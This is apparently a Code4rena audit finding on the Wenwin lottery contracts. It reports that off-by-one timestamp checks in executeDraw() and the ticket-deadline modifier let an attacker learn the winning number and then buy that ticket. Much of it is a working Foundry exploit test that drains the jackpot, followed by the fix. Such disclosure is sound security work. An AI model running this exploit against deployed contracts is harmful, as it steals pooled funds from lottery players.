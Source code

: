 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- primary issue
- satisfactory
- selected for report
- M-04

# [Possibility to steal jackpot bypassing restrictions in the executeDraw()](https://github.com/code-423n4/2023-03-wenwin-findings/issues/343) 

# Lines of code

https://github.com/code-423n4/2023-03-wenwin/blob/91b89482aaedf8b8feb73c771d11c257eed997e8/src/Lottery.sol#L135
https://github.com/code-423n4/2023-03-wenwin/blob/91b89482aaedf8b8feb73c771d11c257eed997e8/src/LotterySetup.sol#L114


# Vulnerability details

## Impact
Attacker can run `executeDraw()` in `Lottery.sol`, receive random numbers and _than_ buy tickets with known numbers in one block.
Harm: Jackpot

## Proof of Concept
This vulnerability is possible to use when contract has been deployed with COOL_DOWN_PERIOD = 0;
The `executeDraw()` allows to be called at the last second of draw due to an incorrect comparison `block.timestamp` with `drawScheduledAt(currentDraw)`, what is start of draw.
```
    function executeDraw() external override whenNotExecutingDraw {
        // slither-disable-next-line timestamp
        if (block.timestamp < drawScheduledAt(currentDraw)) { //@dingo should be <= here
            revert ExecutingDrawTooEarly();
        }
        returnUnclaimedJackpotToThePot();
        drawExecutionInProgress = true;
        requestRandomNumber();
        emit StartedExecutingDraw(currentDraw);
    }
```
Also modifier in LotterySetup.sol allows same action:
```
    modifier beforeTicketRegistrationDeadline(uint128 drawId) {
        // slither-disable-next-line timestamp
        if (block.timestamp > ticketRegistrationDeadline(drawId)) { //@dingo should be >= here
            revert TicketRegistrationClosed(drawId);
        }
        _;
    }
```


Exploit:
-Attacker is waiting for last second of `PERIOD` (between to draws).
-Call `executeDraw()`. It will affect at `requestRandomNumber()` and chainlink will return random number to `onRandomNumberFulfilled()` at `RNSourceController.sol`.
-Attacker now could read received RandomNumber:
```
   uint256 winningTicketTemp = lot.winningTicket(0);
```
- Attacker buy new ticket with randomNumber:
```
   uint128[] memory drawId2 = new uint128[](1);
   drawId2[0] = 0;
   uint120[] memory winningArray = new uint120[](1);
   winningArray[0] = uint120(winningTicketTemp); 

   lot.buyTickets(drawId2, winningArray, address(0), address(0));
```
-Claim winnings:
```
   uint256[] memory ticketID = new uint256[](1);
   ticketID[0] = 1;
   lot.claimWinningTickets(ticketID);
```

Exploit code:

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./LotteryTestBase.sol";
import "../src/Lottery.sol";
import "./TestToken.sol";
import "test/TestHelpers.sol";

contract LotteryTestCustom is LotteryTestBase {
  address public eoa = address(1234);
  address public attacker = address(1235);

  function testExploit() public {
    vm.warp(0);
    Lottery lot = new Lottery(
      LotterySetupParams(
        rewardToken,
        LotteryDrawSchedule(2 * PERIOD, PERIOD, COOL_DOWN_PERIOD),
        TICKET_PRICE,
        SELECTION_SIZE,
        SELECTION_MAX,
        EXPECTED_PAYOUT,
        fixedRewards
      ),
      playerRewardFirstDraw,
      playerRewardDecrease,
      rewardsToReferrersPerDraw,
      MAX_RN_FAILED_ATTEMPTS,
      MAX_RN_REQUEST_DELAY
    );

    lot.initSource(IRNSource(randomNumberSource));

    vm.startPrank(eoa);
    rewardToken.mint(1000 ether);
    rewardToken.approve(address(lot), 100 ether);
    rewardToken.transfer(address(lot), 100 ether);
    vm.warp(60 * 60 * 24 + 1);
    lot.finalizeInitialPotRaise();

    uint128[] memory drawId = new uint128[](1);
    drawId[0] = 0;
    uint120[] memory ticketsDigits = new uint120[](1);
    ticketsDigits[0] = uint120(0x0F); //1,2,3,4 numbers choosed;

    ///@dev Origin user buying ticket.
    lot.buyTickets(drawId, ticketsDigits, address(0), address(0));
    vm.stopPrank();

    //====start of attack====
    vm.startPrank(attacker);
    rewardToken.mint(1000 ether);
    rewardToken.approve(address(lot), 100 ether);

    console.log("attacker balance before buying ticket:               ", rewardToken.balanceOf(attacker));

    vm.warp(172800); //Attacker is waiting for deadline of draw period, than he could call executeDraw();
    lot.executeDraw(); //Due to the lack of condition check in executeDraw(`<` should be `<=`). Also call was sent to chainlink.
    uint256 randomNumber = 0x00;
    vm.stopPrank();

    vm.prank(address(randomNumberSource));
    lot.onRandomNumberFulfilled(randomNumber); //chainLink push here randomNumber;
    uint256 winningTicketTemp = lot.winningTicket(0); //random number from chainlink stores here.
    console.log("Winning ticket number is:                            ", winningTicketTemp);

    vm.startPrank(attacker);
    uint128[] memory drawId2 = new uint128[](1);
    drawId2[0] = 0;
    uint120[] memory winningArray = new uint120[](1);
    winningArray[0] = uint120(winningTicketTemp); //@audit we will buy ticket with stealed random number below;

    lot.buyTickets(drawId2, winningArray, address(0), address(0)); //attacker can buy ticket with stealed random number.

    uint256[] memory ticketID = new uint256[](1);
    ticketID[0] = 1;
    lot.claimWinningTickets(ticketID); //attacker claims winninngs.
    vm.stopPrank();

    console.log("attacker balance after all:                          ", rewardToken.balanceOf(attacker));
  }

  function reconstructTicket(
    uint256 randomNumber,
    uint8 selectionSize,
    uint8 selectionMax
  ) internal pure returns (uint120 ticket) {
    /// Ticket must contain unique numbers, so we are using smaller selection count in each iteration
    /// It basically means that, once `x` numbers are selected our choice is smaller for `x` numbers
    uint8[] memory numbers = new uint8[](selectionSize);
    uint256 currentSelectionCount = uint256(selectionMax);

    for (uint256 i = 0; i < selectionSize; ++i) {
      numbers[i] = uint8(randomNumber % currentSelectionCount);
      randomNumber /= currentSelectionCount;
      currentSelectionCount--;
    }

    bool[] memory selected = new bool[](selectionMax);

    for (uint256 i = 0; i < selectionSize; ++i) {
      uint8 currentNumber = numbers[i];
      // check current selection for numbers smaller than current and increase if needed
      for (uint256 j = 0; j <= currentNumber; ++j) {
        if (selected[j]) {
          currentNumber++;
        }
      }
      selected[currentNumber] = true;
      ticket |= ((uint120(1) << currentNumber));
    }
  }
}



```


## Tools Used

VScode and manual review.

## Recommended Mitigation Steps

1) Change `<` by `<=`:
```
  function executeDraw() external override whenNotExecutingDraw {
        // slither-disable-next-line timestamp
        if (block.timestamp < drawScheduledAt(currentDraw)) { //@dingo should be <= here
            revert ExecutingDrawTooEarly();
        }
        returnUnclaimedJackpotToThePot();
        drawExecutionInProgress = true;
        requestRandomNumber();
        emit StartedExecutingDraw(currentDraw);
    }
```

2) Change `>` by `>=`:
```
   modifier beforeTicketRegistrationDeadline(uint128 drawId) {
        // slither-disable-next-line timestamp
        if (block.timestamp > ticketRegistrationDeadline(drawId)) { //@dingo should be >= here
            revert TicketRegistrationClosed(drawId);
        }
        _;
    }

```

